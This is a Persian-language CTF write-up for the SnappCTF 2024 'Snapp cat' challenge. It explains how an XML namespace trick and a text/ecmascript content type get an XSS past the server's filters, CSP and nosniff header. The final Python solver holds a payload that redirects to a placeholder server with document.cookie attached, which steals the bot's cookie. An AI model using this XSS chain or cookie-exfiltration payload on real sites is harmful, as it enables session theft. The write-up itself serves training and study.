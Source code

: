 ```yaml
---
tags:
  - Snapp CTF
  - SnappCTF-2024
  - XSS
  - CSP
  - Web
  - X-Content-Type-Options
  - Content-Type
---
```


<h1 dir="ltr">Snapp cat</h1>

<center>

![b64.png](./b64.png)

</center>

## توضیح حل چالش

کد سرور توی این سوال به ما داده شده و ما میتونیم اونو دانلود کنیم:
```js
#!/usr/bin/env node
const express = require('express')

const app = express()

app.get('/',(req,res)=>{
	let ct = (req.query.ct || 'ct').toString()
	let buf = Buffer.from(((req.query.buf || btoa('?buf=base64str')).toString()),'base64')
	if(!/^[a-z/]+$/.test(ct) || /htm|javascript/i.test(ct)){
		return res.send('na')
	}
	
	if(/<[a-z]/i.test(buf)){
		return res.send('na')
	}	
	res.setHeader('Content-Type',ct)
	res.setHeader('X-Content-Type-Options','nosniff')
	res.setHeader('Content-Security-Policy',`default-src 'self';`)
	res.send(buf)
})

app.listen(8000)
```

همون طور که میبینین سرور از ما دوتا پارامتر (ct, buf) میگیره که ct همون content-type هستش و buf محتوایی هستش که سرور به ما برمیگردونه

قبل از اینکه سرور به ما دیتایی که داریم رو برگردونه ، یک سری ولیدیشن انجام میده مثلا ما نمیتونم از content type (text/html, text/javascript) استفاده کنیم و همینطور توی دیتایی که به عنوان buf بهش میدیم هم نمیتونیم از تگ های html استفاده کنیم

ولی بعد از چند تست و بررسی های content type هایی که میتونیم روش کد جاوااسکریپت اجرا کنیم با این ها مواجه شدم:

```
text/html
application/xhtml+xml
application/xml
text/xml
image/svg+xml
text/xsl
```

و تنها content type هایی که میتونیم استفاده کنیم: text/xml, text/xsl هستش که اینجا من از text/xml استفاده کردم

ولی یه مشکلی بود ، اینکه ما نمیتونیم از تگی استفاده کنیم که حرف اولش بین a-z | A-Z باشه. ولی بعد از سرچ زدن درباره xml متوجه شدم که ما میتونیم از _ (underline) استفاده کنیم به عنوان اسم تگ

پس payload ام شد این:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml">XSS</_:script>
```

ولی یه مشکلی بود که اصلا حواسم بهش نبود و اون هم content-security-policy بود که نمیزاشت ما از unsafe-inline استفاده کنیم و تنها کاری که میتونستیم اینجا بکنیم این بود که بیایم یک کد جاوااسکریپت از همین origin لوید کنیم

و خب این کار هم میشد با این حرکت انجام داد:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS"></_:script>
```

ولی باز هم یک مشکل بود که اون هدر X-Content-Type-Options بود. توی توضیحات این هدر تو سایت [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options) گفته شده که اگه ریکویستی که ما میزنیم ، content type اش با محتوایی که قراره لوید بشه فرق داشته باشه ریکویست بلاک میشه

برای مثال فرض کنین ما content-type رو بزاریم text/css ولی محتوایی که مرورگر لوید میکنه جاوااسکریپت باشه ، که توی این شرایط ریکویست ما بلافاصله بلاک میشه

خب ما نمیتونیم از text/javascript استفاده کنیم چون که قبلش چک میکنه که javascript توی ct نباشه ولی میتونیم از text/ecmascript استفاده کنیم و اینطوری میتونیم x-content-type-options رو دور بزنیم و XSS بگیریم

و در نهایت پیلود ما میشه:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS?ct=text/ecmascript"></_:script>
```

برای حل این سوال میتونین از کد زیر استفاده کنین

```python
import requests
import base64
import sys
import html

url = 'https://b64.spchallenge.ir/'

xss_pay = """window.location='https://REDACTED?flag=' + document.cookie"""
pa = "?buf=%s&ct=%s" % (base64.b64encode(xss_pay.encode()).decode(), "application/ecmascript")
p = """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="%s"></_:script>""" % html.escape(pa)


buffer, ct = base64.b64encode(p.encode()).decode(), "text/xml"
d = requests.get(url, params={'buf':buffer, 'ct': ct})
print(d.url)
```

به جای REDACTED از آدرس سرور خودتون استفاده کنین و بعد از اجرای کد بالا بهتون یه آدرس میده که اون رو میتونین بدین به بات تا فلگ رو براتون بفرسته

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{9a952b93a0f0ad23304547c4de2025fb}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۵